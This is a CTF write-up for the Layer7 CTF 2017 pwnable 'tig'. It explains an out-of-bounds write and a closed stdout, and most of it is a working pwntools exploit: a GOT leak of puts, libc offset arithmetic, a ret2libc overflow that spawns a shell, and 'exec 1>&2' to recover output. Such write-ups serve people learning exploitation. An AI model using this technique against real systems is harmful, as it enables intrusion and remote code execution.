



# Layer7 CTF 2017 pwnable tig

## Overview

## Analysis



It changes the value twice using the offset, and read 400 characters from stdin.

After read, It checks the zero in buffer, and close `stdout`.

So, I used two methods.

1. I used change_offset function to input the bytes that include zero.
2. I used the `exec 1>&2` command to change the output to `stderr`.

## How to solve



libc is `libc6-i386_2.23-0ubuntu9_amd64`.

```python
from pwn import *

# p = process("./tig")
p = remote("junan.io", 7468)


def print_recv(until = None):
    if until is None:
        print p.recv()
    else:
        print p.recvuntil(until)

e = ELF("./tig")

# set args
print_recv()
p.sendline("4 99")

print_recv()
p.sendline(str(e.got["puts"]) + " 98")

print_recv()
p.sendline("2 97")

# command rtl
# 0x8048783 is 
print_recv()
p.send("A"*276 + p32(e.plt['write']) + p32(0x8048783))

# get puts real address
print_recv("is stdout still available?\n")
puts = u32(p.recv(4))

print("[*] puts is on " + hex(puts))

# calculate address
# libc6-i386_2.23-0ubuntu9_amd64
base_offset = puts - 0x5f140
system = base_offset + 0x3a940
binsh = base_offset + 0x15900b

print("[*] system addres is on " + hex(system))
print("[*] /bin/sh is on " + hex(binsh))

# dummy
p.sendline("1 2")
p.sendline("3 4")
p.sendline("5 6")

# send payload
p.sendline("A"*276 + p32(system) + "AAAA" + p32(binsh))

print_recv("is stdout still available?\n")

# set ouput to stderr
p.sendline("exec 1>&2")

# fun!
p.interactive()
```

## Flag



Flag is `flag{rewritingRO_P_P4yLoad_with_oob_write_func71on}`.